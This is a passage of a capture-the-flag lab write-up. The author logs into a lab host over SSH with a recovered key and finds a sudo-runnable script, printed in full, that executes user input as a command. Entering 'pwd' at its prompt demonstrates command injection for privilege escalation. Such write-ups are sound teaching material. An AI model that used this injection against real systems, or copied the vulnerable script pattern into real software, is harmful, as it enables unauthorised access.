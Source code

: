 Using this key I was able to ssh in as dale.
```
┌──(gomez22㉿DESKTOP-V2K8SJ4)-[~/team.thm]
└─$ ssh dale@10.10.210.28 -i ~/team.thm/dale_key
Last login: Mon Jan 18 10:51:32 2021
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks

```

admin_checks
```
-rwxr--r-- 1 gyles editors  399 Jan 15  2021 admin_checks
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```


```
dale@TEAM:/home/gyles$ $PATH

-bash: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin: No such file or directory

```

I tried adding /tmp to the front of PATH to see if I could hijack the date() function but that didn't work. I tried messing around with bash commands in the script and found this 
```
dale@TEAM:/home/gyles$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: gyles
Enter 'date' to timestamp the file: pwd
The Date is /home/gyles
Stats have been backed up

```

